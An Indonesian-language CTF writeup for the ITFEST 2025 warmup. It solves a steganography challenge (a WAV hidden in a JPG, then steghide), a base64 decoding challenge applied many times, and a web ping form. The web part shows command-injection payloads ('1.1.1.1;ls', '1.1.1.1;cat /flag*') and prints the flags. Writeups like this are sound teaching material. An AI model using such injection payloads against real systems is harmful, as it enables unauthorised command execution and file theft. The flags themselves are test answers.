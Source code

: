# ITFEST 2025 Warmup - Writeup

sy gabut, jd akhirnya bikin ini aja dah.


## stegano

dikasi file [chall.jpg](chall.jpg)

sesuai nama chall nya ini stegano, jadi coba cek bbrp command (strings, binwalk, file) dan hasilnya gada informasi yang sus. Sekarang coba analisis hex code nya, ditemukan hal berikut:

```
....
00000000: 7269 6666 fcbe 0200 5741 5645 666d 7420  riff....WAVEfmt 
00000010: 1000 0000 0100 0100 44ac 0000 8858 0100  ........D....X..
00000020: 0200 1000 6461 7461 d8be 0200 0000 0000  ....data........
00000030: 0100 0300 0500 0800 0a00 0b00 0b00 0900  ................
00000040: 0600 0200 feff f9ff f6ff f4ff f5ff f7ff  ................
00000050: fbff 0000 0400 0800 0900 0600 0000 f7ff  ................
00000060: ecff e0ff d5ff cdff c8ff c8ff ceff d7ff  ................
00000070: e3ff f0ff fbff 0300 0500 0100 f7ff e9ff  ................
00000080: d8ff c9ff beff b9ff bdff cbff e0ff fdff  ................
00000090: 1b00 3900 5100 6000 6400 5c00 4b00 3200  ..9.Q.`.d.\.K.2.
000000a0: 1800 0200 f6ff f7ff 0800 2900 5700 8d00  ..........).W...
000000b0: c300 f100 0e01 1601 0501 db00 9e00 5500  ..............U.
000000c0: 0c00 ceff a6ff 9dff b7ff f2ff 4600 a400  ............F...
000000d0: fb00 3601 4001 0901 8800 baff aafe 6afd  ..6.@.........j.
000000e0: 17fc d3fa c5f9 10f9 d2f8 21f9 01fa 6dfb  ..........!...m.
000000f0: 4cfd 7bff cb01 0904 0406 8f07 8908 de08  L.{.............
00000100: 8f08 aa07 4d06 a204 da02 2401 acff 91fe  ....M.....$.....
00000110: e7fd b1fd e4fd 67fe 17ff d1ff 6f00 d400  ......g.....o...
00000120: ee00 b500 3100 74ff 99fe c0fd 09fd 8bfc  ....1.t.........
00000130: 5afc 79fc e2fc 83fd 42fe 01ff a3ff 0f00  Z.y.....B.......
...
```

Jadi, setelah di cek hex code file .jpg tsb, ada hex code seperti itu, jika dilihat itu merupakan sebuah hex code untuk file .wav

Lalu, tinggal buat program buat mengekstrak file .wav dari gambar tersebut. Berikut untuk program nya

```py
def extract_wav_from_binary(input_file, output_file):
    with open('chall.jpg', 'rb') as f:
        data = f.read()

    # Cari header WAV: 'RIFF....WAVE'
    riff_index = data.find(b'riff')
    if riff_index == -1:
        print("[!] Header 'RIFF' tidak ditemukan.")
        return

    # Ambil ukuran file dari header
    size_bytes = data[riff_index+4:riff_index+8]
    size = int.from_bytes(size_bytes, byteorder='little')

    # Panjang total file WAV = 8 byte header + size dari header
    wav_length = size + 8

    # Ekstrak WAV
    wav_data = data[riff_index:riff_index + wav_length]

    if len(wav_data) != wav_length:
        print(f"[!] Ukuran data tidak cocok. Ditemukan {len(wav_data)} byte, seharusnya {wav_length} byte.")
        return

    with open(output_file, 'wb') as f:
        f.write(wav_data)

    print(f"[✓] WAV berhasil diekstrak ke: {output_file}")


# Contoh penggunaan:
extract_wav_from_binary('input.jpg', 'output.wav')
```

ok, program ini memisahkan antara chall.jpg dan output.wav, namun file .wav masih belum bisa dibuka karena ada kesalahan pada hex code (riff -> harusnya RIFF), sekarang buat program untuk memperbaiki itu. Berikut untuk programnya:

```py
def repair_wav_header(filepath):
    with open('output.wav', 'rb') as f:
        data = bytearray(f.read())

    # Perbaiki header 'RIFF' dan 'WAVE' jika diperlukan
    if data[0:4] != b'RIFF':
        print("[!] Header bukan 'RIFF'. Memperbaiki...")
        data[0:4] = b'RIFF'
    
    if data[8:12] != b'WAVE':
        print("[!] Format bukan 'WAVE'. Memperbaiki...")
        data[8:12] = b'WAVE'

    with open("output_repaired.wav", 'wb') as f:
        f.write(data)

    print("[✓] File diperbaiki. Coba cek ulang dengan `file output_repaired.wav`.")

repair_wav_header("output_fixed.wav")
```

tinggal jalankan wav tersebut dan lihat spectrumnya.

![alt text](image.png)

karena ada informasi berupa password berarti tinggal lakukan steghide gambar tersebut dengan passphrase tersebut.

```
$ steghide extract -sf chall.jpg
Enter passphrase:
wrote extracted data to "flag.txt".
```

## Flag
```
ITFEST25{hmm_apakah_stegano_hanya_ada_di_warmup??}
```


## crypto

dikasi file [chall.txt](chall.txt)

dilihat sekilas isi nya berupa string panjang yang telah diencode pake base64, setelah coba manual ternyata ini tuh berlapis encoding nya.

Yaudah biar ez kita minta gpt buat programnya buat decode string sampe nemu flag nya.

nih program nya
```py
import base64

def recursive_base64_decode(file_path, keyword='ITFEST{'):
    with open("chall.txt", 'r') as f:
        data = f.read().strip()

    iteration = 0
    while True:
        try:
            decoded = base64.b64decode(data).decode('utf-8', errors='ignore')
            iteration += 1
            print(f"[Iterasi {iteration}] => {decoded[:60]}...")  # Cetak sebagian untuk lihat progres

            if keyword in decoded:
                print("\n✅ Ditemukan string target!")
                print(decoded)
                break

            data = decoded  # Lanjut decode hasilnya
        except Exception as e:
            print(f"\n❌ Gagal decode lebih lanjut. Error: {e}")
            break

# Contoh pemakaian
recursive_base64_decode('encoded.txt')
```

tinggal run deh

```
[Iterasi 20] => Vm0wd2QyVkZOVWRXV0doVVYwZG9jRlZ0TVZOWFJsbDNXa2M1VjFac2JETlhh...
[Iterasi 21] => Vm0wd2VFNUdWWGhUV0docFVtMVNXRll3Wkc5V1ZsbDNXa2M1VjFadGVIbFhh...
[Iterasi 22] => Vm0weE5GVXhTWGhpUm1SWFYwZG9WVll3Wkc5V1ZteHlXa1pPVjJKSGVIbFdN...
[Iterasi 23] => Vm0xNFUxSXhiRmRXV0doVVYwZG9WVmxyWkZOV2JHeHlWMjFHVlUxWGVGbGFW...
[Iterasi 24] => Vm14U1IxbFdWWGhUV0doVVlrZFNWbGxyV21GVU1XeFlaVVp3VGsxWFVsbFVW...
[Iterasi 25] => VmxSR1lWVXhTWGhUYkdSVllrWmFUMWxYZUZwTk1XUllUVlZrYkdKSVFsWldN...
[Iterasi 26] => VlRGYVUxSXhTbGRVYkZaT1lXeFpNMWRYTVVkbGJIQlZWMVJDV1UxcmNITlpN...
[Iterasi 27] => VTFaU1IxSldUbFZOYWxZM1dXMUdlbHBVV1RCWU1rcHNZMjVXYzFsWE5XNVlN...
[Iterasi 28] => U1ZSR1JWTlVNalY3WW1GelpUWTBYMkpsY25Wc1lXNW5YM1ZzWVc1blgydGhi...
[Iterasi 29] => SVRGRVNUMjV7YmFzZTY0X2JlcnVsYW5nX3VsYW5nX2thbGl9...
[Iterasi 30] => ITFEST25{base64_berulang_ulang_kali}...
```

## Flag
```
ITFEST25{base64_berulang_ulang_kali}
```

## Injection

ini soal web.
kita dikasi link, berikut penampakannya


![alt text](image-1.png)

yah tinggal command injection biasa doang sih.
kita coba yang basic dulu

```
1.1.1.1;ls

Ping Results:

                    
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
64 bytes from 1.1.1.1: icmp_seq=1 ttl=56 time=11.9 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=56 time=11.7 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=56 time=11.8 ms

--- 1.1.1.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 11.676/11.775/11.875/0.081 ms
index.php
Ping Komedi                
```

ok karena gada sanitasi tinggal cari flagnya

```
1.1.1.1;cat /flag*


                    
Ping Results:

                    
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
64 bytes from 1.1.1.1: icmp_seq=1 ttl=56 time=11.8 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=56 time=11.8 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=56 time=12.0 ms

--- 1.1.1.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 11.787/11.866/12.018/0.107 ms
ITFEST25{Command_Injection_Is_Easy_Right??}Ping Komedi        

```
## Flag
```
ITFEST25{Command_Injection_Is_Easy_Right??}
```